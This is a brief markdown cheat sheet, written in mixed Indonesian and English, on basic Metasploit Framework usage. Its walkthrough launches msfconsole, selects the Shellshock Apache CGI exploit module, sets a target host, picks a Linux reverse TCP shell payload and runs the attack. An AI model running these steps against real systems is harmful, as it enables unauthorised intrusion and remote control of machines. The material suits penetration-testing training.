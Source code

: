 # ⚔️ Metasploit Framework

## 📋 Overview
Metasploit adalah framework untuk developing dan executing exploit code terhadap target machine.

## 🚀 Basic Usage

### Starting Metasploit
```bash
# Start msfconsole
msfconsole

# Start with specific database
msfconsole -d penetration_test

# Quiet mode
msfconsole -q
```

### Basic Commands
```bash
# Help
help

# Search exploits
search type:exploit platform:linux

# Show exploit info
info exploit/linux/http/apache_mod_cgi_bash_env_exec

# Use exploit
use exploit/linux/http/apache_mod_cgi_bash_env_exec

# Show options
show options

# Set options
set RHOSTS 192.168.1.100
set RPORT 80

# Show payloads
show payloads

# Set payload
set payload linux/x86/shell/reverse_tcp

# Run exploit
exploit
run
```
